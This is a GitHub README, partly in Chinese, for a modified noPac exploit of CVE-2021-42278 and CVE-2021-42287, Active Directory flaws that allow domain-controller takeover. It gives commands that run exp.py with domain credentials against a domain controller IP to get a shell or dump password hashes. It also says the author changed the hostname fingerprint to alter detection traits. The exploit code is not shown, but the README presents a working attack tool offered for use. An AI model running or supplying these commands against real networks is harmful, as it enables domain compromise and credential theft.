 # noPac
Exploiting CVE-2021-42278 and CVE-2021-42287 <br>
原项目noPac在实现上可能有点问题，导致在本地没有打通，于是参考sam-the-admin项目进行修改。

# 使用
```
pip3 install -r requirements.txt
# GetShell
python3 exp.py "domain/Username:Passw0rd" -dc-ip 192.168.0.254 -shell
# DumpHash
python3 exp.py "domain/Username:Passw0rd" -dc-ip 192.168.0.254 -dump
```


# 修改
- 修改了原版作者在Kali下的smbexec等执行路径问题
- 修改模拟上线主机名特征


# 参考
https://github.com/cube0x0/noPac <br>
https://github.com/WazeHell/sam-the-admin
